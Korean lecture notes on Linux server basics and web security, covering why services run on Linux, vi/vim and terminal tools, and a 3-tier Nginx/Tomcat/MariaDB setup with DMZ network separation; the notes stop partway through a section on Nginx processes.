--- 
title: "리눅스 시스템 및 웹 보안: 서버 인프라 구축과 보안의 핵심"
date: 2025-12-18
excerpt: "리눅스 운영체제의 필요성과 3-Tier 아키텍처, 그리고 웹 로그 분석과 SQL 인젝션 공격 원리를 심층적으로 학습합니다."
categories:
  - SK_Rookies
  - App-Security
tags:
  - App-Security
  - SK_Rookies
---

# 📝 리눅스 시스템 및 웹 보안 강의 노트 (2025-12-18)

---

## 📚 학습 목표 및 개요

### 🎯 오늘 강의의 핵심 목표

본 강의 노트는 2025년 12월 18일에 진행된 **리눅스 시스템 및 웹 보안** 강의 내용을 극도로 상세하게 정리한 학습 자료입니다. 이 노트를 통해 다음과 같은 역량을 갖출 수 있습니다:

1. **리눅스 시스템의 필요성 이해**: 왜 윈도우가 아닌 리눅스를 배워야 하는지 근본적인 이유를 파악
2. **웹 로그 분석 능력 습득**: 액세스 로그를 통한 공격 탐지 및 분석 방법 학습
3. **SQL 인젝션 공격 원리 이해**: 로그인 페이지 구현을 통한 취약점 분석
4. **OWASP TOP 10 취약점 파악**: 2017/2021 버전 기준 주요 보안 위협 요소 상세 분석
5. **실무 중심 보안 사고 대응**: 실제 사례 기반 보안 인시던트 대응 능력 배양

### 📋 강의 구성 개요

| **섹션** | **주제** | **주요 내용** | **예상 학습 시간** |
|:-:|:-:|:-:|:-:|
| 1 | 강의 시작 및 리눅스 필요성 | 윈도우 vs 리눅스, 서비스 제공자 관점 | 이론 학습 |
| 2 | 리눅스 기초 및 편집기 | vi/vim 편집기, 터미널 도구 활용법 | 실습 포함 |
| 3 | 웹 로그 분석 | 액세스 로그 구조, 공격 패턴 탐지 | 실습 포함 |
| 4 | SQL 인젝션 | 로그인 페이지 구현 및 취약점 분석 | 실습 포함 |
| 5 | OWASP TOP 10 | 10대 웹 애플리케이션 취약점 상세 분석 | 이론 + 사례 |
| 6 | 종합 정리 | 학습 내용 요약 및 다음 단계 안내 | 복습 |

---

## 1️⃣ 강의 시작 및 오리엔테이션

### 👨‍🏫 강사 소개 및 강의 진행 방식

#### 강의 시작 안내

강의는 **9시 20분에 정식 시작**되었습니다. 강사님께서는 학생들의 편의를 고려하여 충분한 준비 시간을 제공했습니다:

```
- 9시 정각: 강의실 개방, 자유 시간
- 9시 20분: 본 강의 시작
- 휴식 시간: 화장실, 물 준비 등
```

#### 강의 템포 및 진행 철학

💡 **강사님의 강의 스타일 특징**:

1. **빠른 진행 + 반복 학습**
   - 초반에는 기본 개념만 빠르게 진행
   - 이후 동일한 내용을 반복하며 점진적으로 깊이를 더함
   - **최소 3회 이상 반복** 설명하는 방식

2. **점진적 심화 학습**
   ```mermaid
   graph LR
       A[1차 설명: 기본 개념] --> B[2차 설명: 살 붙이기]
       B --> C[3차 설명: 심화 내용]
       C --> D[과정 종료 시: 완전한 이해]
   ```

3. **학생 피드백 중시**
   - 빠르다는 피드백이 있을 경우 즉시 템포 조절
   - 메시지를 통한 실시간 소통 권장
   - 중간 중간 브레이크 필요

📌 **강사님의 당부 사항**:

> "빠르다고 느끼시면 언제든지 메시지를 보내주세요. 저도 강의에 집중하다 보면 속도가 점점 빨라지는 경향이 있습니다. 여러분들이 브레이크를 걸어주시면 제가 속도 조절을 하겠습니다."

#### 학생들이 어려워하는 이유 분석

강사님께서 분석한 학생들의 어려움은 **강의 내용 자체가 아니라 리눅스 환경에 대한 낯섦** 때문입니다:

| **어려움의 원인** | **구체적 사례** | **해결 방법** |
|:-:|:-:|:-:|
| 리눅스 환경 낯섦 | vi/vim 편집기 사용 미숙 | 반복 실습으로 익숙해지기 |
| 명령어 입력 속도 | 강사는 빠르게 타이핑, 학생은 느림 | 주요 명령어 암기 및 연습 |
| 편집기 조작 미숙 | 저장, 수정, 빠져나가기 등 | vi/vim 단축키 숙달 |
| 파일 경로 이해 부족 | 절대 경로 vs 상대 경로 혼동 | 파일 시스템 구조 학습 |

💡 **중요한 깨달음**:

실무에서는 편집기를 능숙하게 다루지 못하면 업무 진행이 불가능합니다. 지금 리눅스 편집기에 익숙해지는 것이 매우 중요합니다.

---

## 2️⃣ 왜 리눅스를 배워야 하는가? (핵심 철학)

### 🖥️ 윈도우 vs 리눅스: 운영체제의 목적 차이

#### 윈도우 (Windows): 개인 사용자를 위한 OS

**윈도우의 설계 철학**:

```
목적: 사용자(User)에게 최대한 편리한 환경 제공
대상: 개인용 컴퓨터 (Personal Computer, PC)
특징: GUI 중심, 사용자 친화적 인터페이스
```

윈도우는 **"나 자신이 편하게 사용하기 위한" 운영체제**입니다:

- 마우스 클릭만으로 대부분의 작업 가능
- 직관적인 그래픽 인터페이스
- 소프트웨어 설치 및 관리가 간편
- 사용자 개인의 편의성 극대화

📌 **윈도우의 역할**:

> "윈도우는 이 컴퓨터라는 전자 계산기를 내가 보기 좋게 사용하기 최대한 편하게 만들어서 서비스를 제공해주는 운영체제입니다."

#### 리눅스 (Linux): 서비스 제공을 위한 OS

**리눅스의 설계 철학**:

```
목적: 서비스(Service) 제공에 최적화
대상: 서버 환경, 다수의 사용자
특징: CLI 중심, 안정성 및 성능 우선
```

리눅스는 **"서비스를 이용하는 사람들이 편하도록" 설계된 운영체제**입니다:

- 서버 운영에 최적화된 구조
- 낮은 리소스 사용률
- 높은 안정성 및 보안성
- 원격 관리 용이성

#### 구체적인 비유: 승용차 vs 화물차

강사님께서는 이해를 돕기 위해 **교통 수단**에 비유하여 설명하셨습니다:



**승용차 (= 윈도우)**:
- 학생 시절: 친구들과 놀러 다니기 편함
- 강원도까지 편하게 운전
- 소량의 짐 운반 가능
- 일반 운전면허만 있으면 OK

**화물차 (= 리눅스)**:
- 이사할 때: 대량의 짐을 효율적으로 운반
- 리프트 기능: 짐을 올렸다 내렸다
- 특수 면허 필요: 학습 곡선 존재
- 목적이 다르면 더 효율적

📌 **핵심 메시지**:

> "학생 때는 '나는 자동차 운전을 원활하게 아주 잘 하는데, 굳이 내가 짐을 올렸다 내렸다 할 필요가 없기 때문에 리프트의 사용법을 배우고 싶어 하지 않습니다.' 하지만 나중에 특정 업무에 종사하게 됐을 때는 리프트의 사용법이나 굴삭기의 조정법을 알고 있어야 합니다."

### 🏢 실무 환경에서의 리눅스

#### 왜 회사에서는 리눅스를 사용하는가?

**서비스 제공자의 관점**:

1. **서비스 안정성**
   - 24시간 무중단 서비스 운영 필요
   - 시스템 리소스 효율적 관리
   - 낮은 메모리 사용률

2. **보안성**
   - 오픈소스 기반의 투명성
   - 신속한 보안 패치
   - 세밀한 권한 관리

3. **비용 효율성**
   - 라이선스 비용 절감
   - 서버 당 비용 최소화
   - 무료 업데이트

4. **확장성 및 유연성**
   - 대규모 서버 환경에 적합
   - 자동화 스크립팅 용이
   - 다양한 서비스 통합

💡 **강사님의 실무 경험**:

> "엔진엑스(Nginx)를 실제 윈도우에서 운영하는 회사를 제가 본 적이 없거든요. 그러니까 실무 환경은 여러분들이 (리눅스에) 익숙해지는 수밖에 없어요."

#### 실무 투입 시 현실

**회사에 취업하면**:



⚠️ **주의 사항**:

회사에서는 **운영체제부터 가르쳐주지 않습니다**. 실무에 바로 투입되어야 하는데, 리눅스 사용법을 모르면 업무가 진행되지 않습니다.

따라서 **지금 학습 과정에서 리눅스에 익숙해지는 것이 필수적**입니다.

### 🎓 학생 vs 실무자: 관점의 전환

#### 서비스를 받는 입장 (학생)

```
- 역할: 서비스 이용자
- 위치: 수동적 위치
- 요구사항: "나한테 편하게, 알아듣기 편하게 설명해봐"
- 운영체제: 윈도우로 충분
```

#### 서비스를 제공하는 입장 (실무자)

```
- 역할: 서비스 제공자
- 위치: 능동적 위치
- 요구사항: "고객에게 안정적이고 빠른 서비스 제공"
- 운영체제: 리눅스 필수
```

**관점 전환의 핵심**:



💡 **강사님의 조언**:

> "여러분들이 불편한 거를 감수하고, 여러분들이 편한 게 목적이 아니라 원활한 서비스가 목적이 되는 거죠. 그런 의미에 맞추다 보니까 윈도우라는 운영체제보다 리눅스라는 운영체제가 서비스를 제공하기에는 굉장히 편리한 거거든요."

---

## 3️⃣ 리눅스 환경에 익숙해지기

### 🛠️ 편집기 및 터미널 도구

#### VS Code의 원격 편집 기능

많은 학생들이 리눅스 vi/vim 편집기에 익숙하지 않아 어려움을 겪습니다. 이를 해결하기 위한 **임시 방편**으로 VS Code의 원격 편집 기능을 사용할 수 있습니다:

**VS Code 확장팩**:
- **Remote - SSH** (또는 SSH Remote)
- 원격 리눅스 서버에 SSH로 연결
- 로컬 윈도우처럼 파일 편집 가능

**장점**:
- 익숙한 GUI 환경에서 작업 가능
- 자동 완성 및 syntax highlighting
- 파일 탐색이 직관적

**단점 및 주의사항**:

⚠️ **보안 취약점 발생 가능**:

1. **자동 백업 파일 생성**
   - VS Code는 편집 중 자동 백업 파일 생성
   - 백업 파일에 중요 정보 노출 가능
   - 예: `.config.php.swp`, `database.sql~`

2. **접근 권한 관리 부족**
   - 자동 생성된 파일에 대한 권한 설정 누락
   - 다른 사용자가 접근 가능한 상태로 방치

3. **편리성 vs 보안의 트레이드오프**
   ```mermaid
   graph LR
       A[편리성 증가] -->|시소 관계| B[보안 감소]
       C[보안 강화] -->|시소 관계| D[편리성 감소]
   ```

💡 **강사님의 권장 사항**:

> "편리한 만큼 보안이라는 거는 약간 시소 같은 구조라 편리성이 올라가는 만큼 보안은 내려가고요. 보안이 강화될수록 편리성이 내려가는 거예요."

**결론**: 학습 단계에서는 VS Code Remote를 사용해도 되지만, **최종적으로는 vi/vim을 직접 다룰 수 있어야** 합니다.

#### 터미널 도구: XShell

강사님께서 사용하시는 터미널 도구는 **XShell**입니다:

**XShell의 주요 기능**:

1. **화면 분할 기능**
   - 여러 서버를 동시에 모니터링
   - 화면을 공평하게 분할

2. **동시 입력 기능**
   - 여러 서버에 동일한 명령어를 동시 실행
   - Kubernetes 같은 분산 환경 설정 시 유용

**사용 시나리오**:

```bash
# 예: 10대의 서버에 동시에 패키지 설치
[서버 1, 2, 3, ..., 10] $ sudo apt update
[서버 1, 2, 3, ..., 10] $ sudo apt install nginx -y
```

**기타 터미널 도구**:
- **PuTTY**: 가장 기본적인 SSH 클라이언트
- **MobaXterm**: 다양한 기능 통합 (SFTP, X11 forwarding 등)
- **VS Code 통합 터미널**: VS Code 내장 터미널 확장팩

📌 **선택 기준**:

개인의 **업무 환경과 편의성**에 따라 선택하면 됩니다. 중요한 것은 **리눅스 명령어에 익숙해지는 것**입니다.

### 🔐 보안과 편리성: 균형 잡기

#### 실제 보안 사고 사례

강사님께서 언급하신 실제 사고 사례:

1. **쿠팡 데이터 유출 사건**
   - 수십억 원의 손실 발생
   - 고객 정보 대량 유출

2. **SK 허니팟(Honeypot) 탈취 사건**
   - 보안 시스템 자체가 해킹됨
   - 수백억 원의 손해배상

⚠️ **회사 자산 보호의 중요성**:

> "나중에 서비스를 제공하는 입장이 됐을 때는 굉장히 중요한 회사의 자산이 들어있고, 그 자산을 지켜내는 게 또 보안 관제하는 사람들의 임무가 될 거잖아요."

#### 보안 담당자의 책임

**보안 관제 업무**:



💡 **핵심 메시지**:

데이터를 관리하는 입장에서는 **자신이 불편하더라도 데이터를 안전하게 지키는 목적으로 운영체제를 운영**해야 합니다.

따라서 보안 과정을 배우는 여러분들은 **불편하더라도 자꾸 익숙해질 수 있게 노력**해야 합니다.

---

## 4️⃣ 리눅스 학습의 실제 어려움과 극복 방법

### 😰 학생들이 어려워하는 진짜 이유

#### 내용 자체가 어려운 것이 아니다

강사님의 분석:

```
실제 어려움의 원인:
❌ 보안 내용이 어렵다 (X)
❌ 강의 내용이 복잡하다 (X)
✅ 리눅스 환경에 익숙하지 않다 (O)
```

**구체적 사례**:

| **작업** | **강사** | **학생** |
|:-:|:-:|:-:|
| 파일 편집 | vi 편집기로 빠르게 수정 | 명령어 찾느라 시간 소요 |
| 저장 및 종료 | `:wq` 즉시 입력 | "어떻게 저장하지?" 고민 |
| 다른 작업 전환 | 단축키로 빠른 이동 | 다시 디렉토리 찾기부터 시작 |

💡 **결과**:

학생들은 입력하고 수정하고 다시 저장하고 빠져나가서 다른 작업을 하는 데 익숙하지 않으니까 바로바로 입력이 안 되는 것입니다.

**강사님의 분석**:

> "뭐였더라 이러고 있다 보면 (강사가) 놓치고 후루룩 혼자 지나가 버리고 이런 일이 생기는 거죠."

#### 극복 방법: 반복 연습

📌 **해결책**:

```bash
# 자주 사용하는 명령어를 반복해서 연습
$ vi test.txt          # 파일 열기
i                      # 입력 모드
(내용 입력)
<Esc>                  # 명령 모드
:wq                    # 저장 및 종료

# 이 과정을 매일 반복하여 손에 익히기
```

> "여러분들도 자꾸 연습해서 익숙해져야 될 필요가 있어요. 나중에 실무에 가면은 실제 편집기를 못 쓰면 리눅스 같은 경우는 작업이 불가능합니다."

### 🎮 성공 사례: 게임으로 리눅스 마스터하기

#### 게임 광(狂) 학생의 이야기

강사님께서 기억에 남는 제자 이야기를 공유하셨습니다:

**학생의 특징**:
- 대부분의 수업: 엎드려서 잠만 잠
- 리눅스/운영체제 시간: 눈이 말똥말똥, 열심히 수업 청취
- 데이터베이스 등 다른 과목: 전혀 관심 없음
- 성적: 썩 좋지 않음
- **하지만 리눅스는 굉장히 잘 다룸**

**질문**: "너는 어떻게 해서 그렇게 리눅스를 쓰냐?"

**답변**: 게임에 미쳐 있었음

#### 게임으로 리눅스를 배운 과정



**구체적 과정**:

1. **문제 인식**
   - 최신 게임 프리릴리즈 버전 출시
   - 윈도우 드라이버는 정식 출시 전까지 최적화 안 됨
   - 게임이 버벅거리고 느림

2. **리눅스 선택**
   - 리눅스 운영체제 설치
   - 오픈소스 개발자들의 드라이버 소스 코드 다운로드
   - 직접 드라이버 컴파일 및 설치

3. **성능 최적화**
   - 소스 코드 수정으로 성능 조정
   - 그래픽카드 최적화
   - 최신 게임을 빠르게 즐김

4. **Steam 게임 플랫폼**
   - Steam은 윈도우와 리눅스 버전 동시 출시
   - 운영체제 상관없이 게임 실행 가능

💡 **핵심 교훈**:

> "그 운영체제라는 거 자체가 자기 목적에 맞는 거지. 리눅스는 오픈소스잖아요. 오픈소스니까 자기가 어떤 사양 조정이나 성능 조정을 소스 안에 들어가서 고치고 컴파일 시켜서 그 프로그램을 사용할 수가 있어요."

**이 학생의 성공 요인**:

```
자기만의 명확한 목적 → 리눅스 필요성 인식 → 자발적 학습 → 마스터
```

### 🎯 리눅스 학습 전략

#### 관점의 전환

❌ **잘못된 생각**:

> "윈도우가 훨씬 더 편한데, 굳이 내가 리눅스를 불편하게 똑같은 기능이라고 하는데 왜 굳이 내가 리눅스를 배워야 되나?"

✅ **올바른 생각**:

> "서비스를 제공할 때는 이런 게 필요하겠구나라는 관점을 가지고 수업을 들으면 조금 쉽게 생각할 수 있겠다."

#### 실습 중심 학습법

**단계별 학습 로드맵**:


**주요 명령어 20~30개만 알면 충분**:

강사님의 조언:

> "조금 쓰다 보면 사실은 주로 사용하는 명령어가 제가 봤을 때는 한 20개에서 20~30개 안 될 거예요. 한 20~30개 정도면 리눅스 쓰는데 크게 불편하지 않을 거예요."

---

## 5️⃣ 어제 배운 내용 복습 시작

### 📋 어제 강의 요약

강사님께서 어제 진행한 내용을 간략히 정리하셨습니다:

**주요 내용**:
1. VM웨어에서 3-Tier 아키텍처 구성
2. 웹 서버 (Nginx) 설치
3. WAS 서버 (Tomcat) 설치
4. DB 서버 (MariaDB) 설치
5. 망 분리 개념 이해

💡 **강사님의 반성**:

> "제가 이제 막 마음이 급해서 좀 빠르게 진행을 하죠. 빠르게 진행을 하는데 제가 어제도 말씀을 드렸는데 빠르면 언제든지 빠르다고 저한테 메시지를 좀 보내주세요."

> "어쨌든 어제는 또 저 혼자 취해가지고 막 진도를 또 나갔던 것 같아요."

**오늘의 다짐**:

> "오늘은 최대한 좀 천천히 나가보려고 하는데... 오늘은 좀 인식하고 생각하고 좀 천천히 나가볼게요."

### 🏗️ 3-Tier 아키텍처와 망 분리 개념

#### 3-Tier 아키텍처란?

**구조**:



**각 계층의 역할**:

| **계층** | **서버 종류** | **역할** | **위치** |
|:-:|:-:|:-:|:-:|
| 1계층 | Web Server (Nginx) | 정적 파일 서빙, 리버스 프록시 | DMZ Zone |
| 2계층 | WAS (Tomcat) | 동적 콘텐츠 생성, 비즈니스 로직 | 내부 망 |
| 3계층 | Database (MariaDB) | 데이터 저장 및 관리 | 내부 망 (가장 안쪽) |

#### DMZ (DeMilitarized Zone) 개념

**DMZ란?**

```
DMZ (비무장지대): 외부에서 접속 가능한 네트워크 영역
목적: 내부 망을 보호하면서 외부 서비스 제공
```

**망 분리 구조**:



**보안 효과**:

1. **물리적 망 분리**
   - 외부에서 내부 망으로 직접 접근 불가
   - 공격자는 DMZ 존을 통해서만 접근 가능

2. **단계별 방어**
   ```
   공격자 → 방화벽 1 → Web Server → 방화벽 2 → WAS → 방화벽 3 → DB
   ```
   - 각 단계마다 방화벽 설정
   - DB까지 도달하기 위해서는 3개의 방화벽 돌파 필요

3. **최소 권한 원칙**
   - Web Server: DMZ에서만 통신
   - WAS: Web Server 및 DB와만 통신
   - DB: WAS와만 통신

💡 **실무 적용**:

> "외부에서 정보 탈취를 목적으로 들어오려면 망이, 내가 들어올 수 있는 루트는 DMZ 존밖에 없어요. DMZ 존에 보통은 웹 서버만 두는데 웹 서버를 통해서 들어오는 수밖에 없어요. 왜? 물리적으로 망이 분리되어 있기 때문에 내부 망으로 들어올 수 있는 방법이 없는 거예요."

#### VM웨어에서의 제약사항

⚠️ **VM웨어 워크스테이션 한계**:

```
- VM웨어 워크스테이션: 네트워크 여러 개 분할 미지원
- 이유: PC 안에서만 사용하는 용도
- 대안: 클라우드 (AWS, Azure, GCP) 환경에서 VPC로 망 구성
```

**클라우드 환경에서의 망 분리**:

학생들이 이미 배운 내용:
- VPC (Virtual Private Cloud)로 망 구분
- 서브넷으로 세부 망 분리
- 보안 그룹 및 NACL로 접근 제어

---

## ✅ Section 1 학습 체크리스트

### 📝 핵심 개념 이해 확인

- [ ] 윈도우와 리눅스의 설계 철학 차이를 설명할 수 있다
- [ ] 서비스 이용자와 서비스 제공자의 관점 차이를 이해했다
- [ ] 실무에서 리눅스를 사용하는 이유를 3가지 이상 말할 수 있다
- [ ] 보안과 편리성의 트레이드오프 관계를 이해했다
- [ ] 3-Tier 아키텍처의 각 계층 역할을 설명할 수 있다
- [ ] DMZ Zone의 개념과 필요성을 이해했다
- [ ] 망 분리를 통한 보안 강화 원리를 설명할 수 있다

### 🎯 실천 계획

- [ ] 리눅스 환경에 매일 접속하여 명령어 연습하기
- [ ] vi/vim 편집기 단축키 익히기
- [ ] 기본 명령어 20~30개 암기 및 반복 연습
- [ ] 불편하더라도 리눅스 환경에서 작업하는 습관 들이기
- [ ] 실무 관점에서 학습 내용 바라보기

### 📋 핵심 요약

#### 1. 왜 리눅스인가?

```
✅ 서비스 제공에 최적화된 운영체제
✅ 실무 현장에서 거의 모든 서버가 리눅스 사용
✅ 취업 후 즉시 실무 투입되므로 미리 익숙해져야 함
```

#### 2. 학습의 어려움

```
❌ 내용 자체가 어려운 것이 아님
✅ 리눅스 환경에 익숙하지 않아 어려움
✅ 해결책: 반복 연습을 통한 익숙해지기
```

#### 3. 강의 진행 방식

```
✅ 빠른 진행 + 3회 이상 반복 설명
✅ 점진적 심화 학습 (기본 → 살 붙이기 → 심화)
✅ 학생 피드백 기반 템포 조절
```

#### 4. 보안의 핵심

```
✅ 편리성 ↔ 보안 (시소 관계)
✅ 데이터 유출 시 수십억~수백억 손실
✅ 불편하더라도 안전한 환경 구축 필요
```

#### 5. 3-Tier 아키텍처

```
✅ Web Server (DMZ) → WAS (내부망) → DB (내부망)
✅ 물리적 망 분리로 보안 강화
✅ 단계별 방화벽 설정
```

---

## 🔜 다음 섹션 예고

**Section 2: 리눅스 기초 및 Nginx 설정 상세 분석**

다음 섹션에서는 어제 배운 내용을 더욱 상세히 복습하며 다음 주제를 다룹니다:

1. **Nginx 설치 및 설정 파일 분석**
   - apt-get 명령어 옵션 상세 설명
   - systemctl 명령어 활용법
   - nginx.conf 파일 구조 이해

2. **리눅스 명령어 옵션의 규칙**
   - `-a`, `-n`, `-t`, `-p` 등 공통 옵션 패턴
   - netstat, ps, grep 등 핵심 명령어

3. **사용자 및 권한 관리**
   - www-data 사용자 이해
   - /etc/passwd 파일 분석
   - UID/GID 개념

4. **vi/vim 편집기 마스터**
   - 입력 모드, 명령 모드, ex 모드
   - 검색, 저장, 종료 단축키
   - 실전 편집 테크닉

---

**강의 노트 작성**: Section 1 완료 ✅
**다음 단계**: Section 2 작성 진행 예정
# Section 2: Nginx 설정 파일 Deep Dive 및 보안 개념

---

## 📋 학습 목표

이 섹션에서는 Nginx 웹 서버의 설정 파일을 깊이 있게 분석하며 다음 내용을 학습합니다:

1. **Nginx 프로세스 구조 이해**: Master Process와 Worker Process의 역할
2. **보안 권한 설정**: www-data 사용자를 사용하는 이유와 보안 효과
3. **MIME Types 이해**: 파일 타입 설정 및 업로드 취약점
4. **리눅스 파일 시스템**: 확장자의 의미와 실행 파일 판별
5. **로그 파일 관리**: 에러 로그 및 액세스 로그 위치
6. **설정 파일 분할**: include 구문을 통한 모듈화

---

## 1️⃣ Nginx 프로세스 구조 이해

### 📟 프로세스 확인 명령어

#### `ps` 명령어로 Nginx 프로세스 확인

**명령어 실행**:

```bash
$ ps -ef | grep nginx
```

**출력 예제**:

```
root     3293     1  0 09:00 ?        00:00:00 nginx: master process nginx
www-data 3294  3293  0 09:00 ?        00:00:00 nginx: worker process
www-data 3295  3293  0 09:00 ?        00:00:00 nginx: worker process
```

**출력 해석**:

| **필드** | **값** | **의미** |
|:-:|:-:|:-:|
| 사용자 | root | Master 프로세스를 실행한 계정 |
